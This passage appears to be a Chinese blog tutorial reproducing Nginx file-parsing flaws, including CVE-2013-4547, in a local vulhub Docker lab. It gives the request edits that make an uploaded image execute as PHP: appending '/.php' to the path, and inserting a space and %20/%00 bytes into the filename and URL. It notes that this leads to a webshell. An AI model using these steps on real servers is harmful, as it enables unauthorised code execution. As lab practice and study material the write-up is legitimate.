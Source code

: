 ```plain
访问：http://192.168.233.128/uploadfiles/nginx.png/.php
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134521951-1303249482.png)

```plain
在上传图片中，如果上传一个jpg文件，抓包，正常的情况下访问是一张图片：
访问：/var/www/html/uploadfiles/1b82db4f6c22c9ba690e4e3c4bbbd75e.png
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134521569-831161943.png)

```plain
访问一下：http://192.168.233.128/uploadfiles/1b82db4f6c22c9ba690e4e3c4bbbd75e.png/.php
执行出了php效果。
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134522422-1936255079.png)

```plain
如果php图片中带有后门，那样就能进行getshell操作了。
2.CVE-2013-4547：影响版本：Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7
像中间件这种漏洞的话，只要符合版本，一般几率都比较高。因为还可以用，不像软件一样需要更新才能继续使用。

参考：https://vulhub.org/#/environments/nginx/CVE-2013-4547/

启动环境：
cd /vulhub-master/nginx/CVE-2013-4547
sudo docker-compose up -d

访问：http://192.168.233.128:8080

上传文件，抓取数据包，在filename="1.jpg"中加上空格，变成：filename="1.jpg "
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134521891-2120606143.png)

```plain
然后访问这个图片：http://192.168.233.128:8080/uploadfiles/

抓取数据包，url头进行修改：/uploadfiles/1.jpg  .php
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134521706-1088184923.png)

```plain
然后在hex中进行编码，修改为%20，%00
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134523597-2069721286.png)

```plain
数据包重新发送，执行出phpinfo效果
```
